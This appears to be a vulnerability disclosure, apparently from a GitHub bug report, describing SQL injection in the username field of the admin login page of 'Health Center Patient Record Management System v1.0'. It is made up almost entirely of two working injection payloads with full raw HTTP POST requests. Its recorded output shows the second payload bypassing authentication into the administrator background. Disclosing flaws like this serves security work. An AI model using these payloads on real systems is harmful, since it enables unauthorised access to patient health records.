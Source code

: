 # Health Center Patient Record Management System v1.0 has SQL injection

BUG_Author: tangtangtang123456

Vulnerability File: /HCPMS/admin/login.php

POST parameter 'MULTIPART username', exists SQL injection vulnerability

Payload1:a' OR NOT 555=555#

```
POST /HCPMS/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAqz3u58hZsnGERpB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=vrefpdn15a3e5ikfvutedkl3mp
Connection: close

------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="username"

a' OR NOT 555=555#
------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryAqz3u58hZsnGERpB
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryAqz3u58hZsnGERpB--
```

Invalid username or password

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/err.png)

Payload2:a' OR NOT 555=556#

```
POST /HCPMS/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi9hja0imnN6Wx87P
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=vrefpdn15a3e5ikfvutedkl3mp
Connection: close

------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="username"

a' OR NOT 555=556#
------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryi9hja0imnN6Wx87P
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryi9hja0imnN6Wx87P--
```

Successfully logged in to the administrator background

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/right.png)

